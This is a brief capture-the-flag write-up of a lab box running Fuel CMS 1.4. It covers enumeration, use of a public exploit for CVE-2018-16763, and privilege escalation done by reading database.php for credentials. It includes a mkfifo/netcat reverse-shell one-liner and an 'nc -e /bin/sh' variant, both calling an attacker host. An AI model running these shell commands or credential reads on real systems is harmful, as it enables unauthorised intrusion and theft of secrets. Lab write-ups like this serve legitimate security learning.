

# Ignite

> Nashia Holloway | May 9th, 2020

## Enumeration


Only port 80 is open.


They're running version 1.4 of Fuel CMS.


They're even nice enough to give us the username and password to login.

## Initial Access

There's not much in the dashboard, so I searched for exploits against that version of fuel and got a hit (CVE-2018-16763). Changing some of the varaibles and running the script, we get a shell. But the shell suxs. I mean it works, but this is the ugliest shell I've ever seen. I would like a nicer shell.

**SHELL BEFORE**


```
(in ugly shell, run):
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc tun0 1234 >/tmp/f
```

Set up a listener and reap the benefits. (Running `nc -e /bin/sh tun0 1234` didn't work because it wasn't the version that supports the `-e` option). Let's get a python shell while we're at it. `python -c 'import pty; pty.spawn("/bin/sh")'`

**SHELL AFTER**


## Privilege Escalation

We need a way to get root. Looking back at the second item listed on the websites home page, "Install the database", it tells us where the usernames and passwords are being stored.

```
$ cd fuel/application/config
$ cat database.php
```


Now we can get the root flag.




